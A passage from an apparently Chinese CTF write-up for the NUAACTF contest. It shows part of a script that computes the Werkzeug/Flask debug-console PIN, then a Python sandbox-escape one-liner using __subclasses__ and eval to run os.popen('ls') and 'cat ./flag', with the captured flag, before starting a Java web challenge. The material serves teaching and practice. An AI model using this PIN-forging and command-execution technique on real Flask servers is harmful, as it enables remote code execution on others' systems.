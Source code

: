 ```python
	else:
		rv = num
	return rv

name = get_name()
md5_list = [
    'ctf',
    'flask.app',
    'Flask',
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc',
    '2485378285570',
    ''
    ]

print get_pin(md5_list)
```



这里可能比较坑的是`/usr/local/lib/python2.7/dist-packages/flask/app.pyc`跟`machine_id`是空两处。不过通过几次尝试也都可以尝试出来。难度并不算大。



然后就是命令执行，一个简单没有任何过滤的`Python`沙盒，方法很多。

这里简单给个事例

```python
[console ready]
>>> ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()' )
'APP\nflag\nrun.py\ntest.py\nwww.zip\n'
>>> ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("cat ./flag").read()' )
'NUAACTF{F14sssskkkrrr_D3Bug_n0t_S4f3}'
```

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fyi9o8be0bj227616s7hc.jpg)



###	Web3    张哥的金牌之旅

####	题目描述





####	信息收集

打开发现是个`java`框架。

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fyia0yt2bij228017s47p.jpg)

提供了简单的登录注册。
